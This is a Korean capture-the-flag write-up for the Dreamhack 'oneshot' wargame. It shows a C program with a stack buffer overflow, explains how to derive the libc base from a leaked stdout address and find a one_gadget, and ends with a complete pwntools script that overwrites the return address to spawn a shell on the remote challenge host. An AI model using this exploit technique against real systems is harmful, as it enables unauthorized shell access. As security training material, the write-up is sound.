 ```yaml
---
tags: [dreamhack, wargame, write-up]		
---
```


```bash
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

onesoht gadget이란

oneshot-gadget은 해당 가젯의 주소로 점프하여 호출하는 것만으로 /bin/sh이 실행되는 가젯이다. 그저 ret 영역에 oneshot-gadget의 주소를 덮어씌워줌으로써 exploit 된다.

---

프로그램을 실행하면 printf를 통해 libc 내부 stdout 전역 변수의 주소가 출력되는데, 해당 주소로 오프셋 계산을 통해 libc_base 주소를 알아낼 수 있다.

![Image](/assets/img/oneshot/image1.png)

해당 결과를 통해 stdout의 offset은 0x3c5708 라는 것을 구할 수 있다.

이제 one_gadget을 찾아야 하는데, one_gadget은 심볼 테이블에 이름으로 등록된 게 아니고, 코드 내부 특정 instruction 흐름에서 조건이 맞으면 shell로 직행하는 주소이다. 

readelf -s 는 심볼(함수, 변수)만 보여주므로 one_gadget이 나오지않는다.

따라서 직접 libc 바이너리를 분석해서 offset을 뽑아주는 one_gadget 툴을 써야한다.

![Image](/assets/img/oneshot/image2.png)

![Image](/assets/img/oneshot/image3.png)

```bash
from pwn import *

def slog(name, addr):
    return success(": ".join([name, hex(addr)]))

p = remote("host3.dreamhack.games", 23842)
e = ELF("./oneshot")
libc = ELF("./libc.so.6")

one_gadget = 0x45216

p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
base = stdout - libc.symbols["_IO_2_1_stdout_"]
one_gadget = base + one_gadget

slog("STDOUT", stdout)
slog("base", base)
slog("one gadget", one_gadget)

payload = b'A'*24
payload += b'\x00'*8
payload += b'B'*8
payload += p64(one_gadget)

p.sendafter("MSG: ", payload)
p.interactive()
```